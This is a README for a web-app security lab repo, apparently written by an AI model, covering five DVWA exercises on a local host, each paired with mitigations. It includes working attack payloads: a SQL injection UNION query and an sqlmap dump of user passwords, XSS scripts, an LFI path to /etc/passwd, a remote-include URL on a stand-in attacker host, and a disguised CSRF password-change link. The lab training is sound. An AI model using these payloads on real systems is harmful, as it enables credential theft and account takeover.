 # Web-App Security — Quick Lab README

A compact, copy-friendly README for your **web-app-security** repo.
Includes the five DVWA labs you created: **SQL Injection**, **XSS**, **File Inclusion**, **Web Security Headers**, and **CSRF** — with one-line descriptions, quick repro payloads/commands, and short mitigation notes. Use this as the repo `README.md`.

---

## What this repo contains

Small, hands-on demos for learning and testing common web vulnerabilities on **DVWA (low)** in a local lab.

### Labs

1. **SQL Injection** — extract DB data via injectable parameters.

   * Quick payload: `1 UNION SELECT user,password FROM users#`
   * Quick command (sqlmap):

     ```bash
     sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sql/?id=18&Submit=Submit" \
       --cookie="PHPSESSID=<id>; security=low" -p id --batch --dump -T users -C user,password
     ```
   * Mitigation: parameterized queries (prepared statements), input validation, least-privilege DB user.

2. **Cross-Site Scripting (XSS)** — run attacker JS in victims’ browsers.

   * Stored payload: `<body onload=alert('test')>`
   * Reflected payload: `<script>alert("XSS Found");</script>`
   * Mitigation: contextual output encoding (e.g., `htmlspecialchars()`), CSP, auto-escaping templates.

3. **File Inclusion (LFI / RFI)** — read local files or include remote code.

   * LFI example: `?page=../../../../../../etc/passwd`
   * RFI example: `?page=http://attacker/csrf.html`
   * Mitigation: whitelist includes, `realpath()` checks, `allow_url_include=Off`, `open_basedir`, least privilege.

4. **Web Security Headers** — add headers to harden browsers.

   * Core headers to add in Apache:

     ```apache
     Header always set X-Frame-Options "SAMEORIGIN"
     Header set X-Content-Type-Options "nosniff"
     Header set Referrer-Policy "strict-origin-when-cross-origin"
     Header set Content-Security-Policy "default-src 'self'; script-src 'self'; object-src 'none'"
     Header set Permissions-Policy "geolocation=(), microphone=(), camera=()"
     ```
   * For TLS: `Strict-Transport-Security: max-age=31536000; includeSubDomains; preload`
   * Verify with: `curl -I http://127.0.0.1/dvwa`

5. **CSRF (Cross-Site Request Forgery)** — force authenticated actions via crafted links.

   * Example attacker link (changes password):

     ```html
     <a href="http://127.0.0.1/DVWA/vulnerabilities/csrf/?password_new=1234&password_conf=1234&Change=Change#">Movie 720p</a>
     ```
   * Mitigation: synchronizer CSRF tokens, `SameSite` cookies, require POST for state changes, Origin/Referer checks.

---

## Quick start (lab)

1. Boot Kali VM and start Apache + DVWA.
2. Log in to DVWA and set **Security: low**.
3. Run the lab you want (open relevant `/vulnerabilities/...` page).
4. Capture requests with browser DevTools / Burp for evidence.
5. Apply mitigations in a test copy and verify.

---

## Repo structure (suggested)

```
web-app-security/
├─ sql/        — DVWA-SQL-attack-and-mitigation.md
├─ xss/        — DVWA-XSS-attack-and-mitigation.md
├─ lfi-rfi/    — DVWA-LFI-RFI-attack-and-mitigation.md
├─ headers/    — DVWA-Web-Security-Headers.md
├─ csrf/       — DVWA-CSRF-attack-and-mitigation.md
└─ README.md   — (this file)
```

---

## Safety & ethics

⚠️ Only run these tests in your **own** lab or with explicit permission. Never test production or third-party systems without authorization.

---

## License

MIT — use for learning and teaching only.

---

Want this saved to the canvas as the repo `README.md` file (ready to push)? I can add it directly.

